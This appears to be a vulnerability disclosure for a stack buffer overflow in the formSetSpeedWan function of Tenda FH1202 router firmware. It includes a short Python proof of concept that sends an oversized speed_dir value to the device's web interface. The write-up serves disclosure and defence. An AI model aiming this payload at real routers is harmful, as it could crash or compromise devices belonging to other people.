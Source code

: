 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `formSetSpeedWan` function. The `nptr` variable receives the `speed_dir` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `nptr` can trigger this security vulnerability.

![image-20240319230517758](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230517758.png)

![image-20240319230445439](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230445439.png)

![image-20240319230506331](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230506331.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSpeedWan"
payload = b"a"*1000


data = {"speed_dir": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319230701482](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319230701482.png)
